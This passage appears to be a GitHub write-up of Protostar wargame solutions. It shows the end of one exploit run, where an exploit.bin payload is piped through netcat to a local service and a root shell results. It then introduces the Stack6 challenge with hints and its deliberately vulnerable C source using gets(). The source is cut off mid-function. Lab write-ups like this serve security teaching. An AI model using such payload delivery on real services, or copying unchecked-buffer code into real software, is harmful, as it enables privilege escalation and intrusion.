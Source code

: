 From another terminal.

```js
$ (cat exploit.bin; cat) | nc localhost 8080
id
uid=1000(c) gid=1000(c) euid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare),1000(c)
whoami
root
```

## Protostar-Stack6 Solution

### 1. Introduction

This is a poc solution for the "Stack6" challenge of Protostar. It's short and hopefully it's easy for everyone who wants to have a look.

Source:
[https://web.archive.org/web/20140405142902/http://exploit-exercises.com/protostar/stack6](https://web.archive.org/web/20140405142902/http://exploit-exercises.com/protostar/stack6) 

**Hints:**
* Stack6 looks at what happens when you have restrictions on the return address.
* This level can be done in a couple of ways, such as finding the duplicate of the payload ( objdump -s will help with this), or ret2libc , or even return orientated programming.
* It is strongly suggested you experiment with multiple ways of getting your code to execute here.


#### 1.1 Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
 
void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath(); 
```
